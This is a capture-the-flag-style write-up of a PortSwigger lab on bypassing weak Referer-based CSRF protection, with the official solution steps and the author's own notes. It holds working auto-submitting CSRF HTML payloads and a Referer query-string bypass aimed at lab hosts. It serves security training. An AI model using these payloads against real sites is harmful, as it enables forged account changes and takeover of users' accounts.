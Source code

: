 # CSRF with broken Referer validation

## This lab's email change functionality is vulnerable to CSRF. It attempts to detect and block cross domain requests, but the detection mechanism can be bypassed.

## To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address.

## You can log in to your own account using the following credentials: `wiener:peter`

### HINT:

```html
<script>
  history.pushState("", "", "/");
</script>
<form
  action="https://0a05009904830764825ebf6c00de0053.web-security-academy.net/my-account/change-email"
  method="POST"
>
  <input type="hidden" name="email" value="foo1@bar.com" />
  <input type="submit" value="Submit request" />
</form>
<script>
  document.forms[0].submit();
</script>
```

1.  Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history.
2.  Send the request to Burp Repeater. Observe that if you change the domain in the Referer HTTP header, the request is rejected.
3.  Copy the original domain of your lab instance and append it to the Referer header in the form of a query string. The result should look something like this:

    `Referer: https://arbitrary-incorrect-domain.net?YOUR-LAB-ID.web-security-academy.net`

4.  Send the request and observe that it is now accepted. The website seems to accept any Referer header as long as it contains the expected domain somewhere in the string.
5.  Create a CSRF proof of concept exploit as described in the solution to the [CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses) lab and host it on the exploit server. Edit the JavaScript so that the third argument of the `history.pushState()` function includes a query string with your lab instance URL as follows:

    `history.pushState("", "", "/?YOUR-LAB-ID.web-security-academy.net")`

    This will cause the Referer header in the generated request to contain the URL of the target site in the query string, just like we tested earlier.

6.  If you store the exploit and test it by clicking "View exploit", you may encounter the "invalid Referer header" error again. This is because many browsers now strip the query string from the Referer header by default as a security measure. To override this behavior and ensure that the full URL is included in the request, go back to the exploit server and add the following header to the "Head" section:

    `Referrer-Policy: unsafe-url`

    Note that unlike the normal Referer header, the word "referrer" must be spelled correctly in this case.

7.  Change the email address in your exploit so that it doesn't match your own.
8.  Store the exploit, then click "Deliver to victim" to solve the lab.

---

### step1

login and change email to repeater
`Referer: https://0a1000f20336b572830633df008a0099.web-security-academy.net`
in reference add any url with ? mark and test
`Referer: https://pp.com?0a1000f20336b572830633df008a0099.web-security-academy.net`

```html
<html>
  <body>
    <script>
      history.pushState(
        "",
        "",
        "/?0a1000f20336b572830633df008a0099.web-security-academy.net"
      );
    </script>
    <form
      action="https://0a1000f20336b572830633df008a0099.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <input type="hidden" name="email" value="fo11@bar.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
